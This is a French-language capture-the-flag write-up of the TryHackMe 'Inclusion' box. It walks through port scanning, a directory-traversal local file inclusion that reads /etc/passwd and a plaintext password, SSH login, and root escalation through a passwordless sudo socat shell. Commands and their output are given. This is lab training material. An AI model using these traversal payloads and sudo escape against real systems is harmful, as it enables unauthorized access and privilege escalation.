






##### <u>**1. NMAP**</u>

> sudo nmap -sSV -sC 10.10.163.139

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-15 11:58 CET
Nmap scan report for 10.10.163.139
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.27 seconds

```

On peut voir que le port 22(ssh) est le port 80(http) sont ouvert.

Il serait donc intéressant de tenter un gobuster sur le port 80.


##### <u>**2. GOBUSTER**</u>

> gobuster -u http://10.10.163.139-w ~/Documents/wordlist/common.txt -t 40 -x .php,.txt,.html

- `-u  :  Target.`
- `-w :  Wordilist.`
- `-t   :  Nombre de threads à lancer (par défaut 10).`
- `-x  : Extension ciblée.`

```
gobuster -u http://10.10.163.139 -w ~/Documents/wordlist/common.txt -t 40 -x .php,.txt,.html

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.163.139/
[+] Threads      : 40
[+] Wordlist     : /home/ethost/Documents/wordlist/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html
[+] Timeout      : 10s
=====================================================
2021/01/15 12:08:06 Starting gobuster
=====================================================
=====================================================
2021/01/15 12:10:58 Finished
=====================================================

```

Pas de chances, rien n'a été trouvé.

Allons voir se site de plus près, il y aura peut être des informations intéressantes.



Voici la page du site, ce dernier possède 3 sections nommé  "Hacking this world", "LFI-attack", "RFI-attack".

En cliquant sur le bouton en dessous de LFI-attack, on peut retrouver une page avec seulement du texte détaillant le type d'attaque qu'est LFI.



En regardant l'url de plus près on peut remarquer qu'il utilise et inclut une fonction pour inclure des pages Web, cela signifie qu'une attaque par LFI(Local file inclusion) sur la page LFI-attack! Ce n'est surement pas une coïncidence :)

Testons de trouvé le fichier passwd.

Pour cela il faudra probablement utiliser l'attaque par Directory Traversal.

Elle consiste à ajouter des ../ à la suite afin de revenir dans le repetoire racine pour que le /etc/passwd soit accessible.

C'est parti!

http://10.10.163.139/article?name=etc/passwd



http://10.10.163.139/article?name=../etc/passwd



http://10.10.163.139/article?name=../../etc/passwd



http://10.10.163.139/article?name=../../../etc/passwd



Trouvé!

L'utilisateur est donc *falconfeast* 1000:1000 (1000:1000 signifie que c'est le premier utilisateur du système).

De plus, si on regarde juste à coter de l'utilisateur on peut voir un #falconfeast:rootpassword qui devrait être le mot de passe de l'utilisateur en question.

Tentons de nous connecter en ssh avec le login et le mot de passe trouvé.

(La machine à expiré, du coup une nouvelle IP est utilisé ^^)

> ssh falconfeast@10.10.80.168

```
ssh falconfeast@10.10.80.168
The authenticity of host '10.10.80.168 (10.10.80.168)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.80.168' (ECDSA) to the list of known hosts.
falconfeast@10.10.80.168's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$
```

Nous voilà sur la machine cible!

Allons chercher le flag user.txt.

> find / -name user.txt 2>/dev/null
>

- `-name : recherche un fichier avec le nom "user.txt"`
- `2>/dev/null : Toutes les erreurs rencontré les envoyer dans /dev/null (poubelle unix)`

```
falconfeast@inclusion:~$ find / -name user.txt 2>/dev/null
/home/falconfeast/user.txt
```

*cat user.txt*

```
falconfeast@inclusion:~$ cat user.txt 
XXXXXXXXXXXXXXXXX
```


##### <u>**3. Privilege Escalation**</u>

Etant donnée que nous avons accès à un utilisateur via ssh, nous pouvons upload l'outil linpeas pour nous aider à privesc.

> scp linpeas.sh falconfeast@10.10.80.168:.
>

```
scp linpeas.sh falconfeast@10.10.80.168:.
falconfeast@10.10.80.168's password: 
linpeas.sh
```

```
falconfeast@inclusion:~$ ls
articles  linpeas.sh  user.txt
```

Lançon linpeas.sh.

> ./linpeas.sh
>

**LEGEND:**

- **RED/YELLOW: 99% a PE vector**
- **RED: You must take a look at it**

- **LightCyan: Users with console**

- **Blue: Users without console & mounted devs**

- **Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)** 

- **LightMangeta: Your username**

En explorant le retour de *linpeas* je suis tombé sur l'outil *socat* surligné en jaune, ce qui signifie qu'un escalade de privilege est possible.

De plus *soccat* n'a pas besoin de mot de passe pour être exécuter en root.

```
Exploit possible car socat na pas besoin de password pour être utilisé en sudo:
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat (YELLOW)
```

En allant sur https://gtfobins.github.io/ et en recherchant socat on peut retrouver une commande permettant de passer en shell root grâce à la commande sudo, c'est exactement ce qu'il nous faut!

> sudo socat stdin exec:/bin/sh
>

```
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
```

*python3 -c 'import pty;pty.spawn ("/bin/bash")'* pour récuperer le prompt en root.

```
python3 -c 'import pty;pty.spawn ("/bin/bash")'
root@inclusion:~# 
```

Utilisons find pour trouver le fichier root.txt

> find / -name root.txt 2>/dev/null
>

```
root@inclusion:~# find / -name root.txt 2>/dev/null
find / -name root.txt 2>/dev/null
/root/root.txt
```

> cat /root/root.txt
>

```
root@inclusion:~# cat /root/root.txt
cat /root/root.txt
XXXXXXXXXXXXXXXXXXXX
```


Celà conclu donc la box <u>Inclusion</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>